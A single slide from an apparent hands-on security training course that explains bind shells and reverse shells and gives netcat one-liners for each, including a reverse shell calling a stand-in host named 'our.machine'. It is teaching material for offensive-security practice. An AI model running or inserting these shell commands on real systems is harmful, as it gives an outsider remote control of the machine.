

# Two Days of Hands-On
Where are we?
Bind Shell – Remote shell listening on port
nc -vvl -p 8888 -e /bin/sh
Firewalls often cause problems
Private IPs mean you can’t reach the port
Reverse Shell – We listen from a public IP we own, then connect to our open port from shelled machine
nc our.machine 8888 -e /bin/sh
Requires nc with -e or -c option (not always around)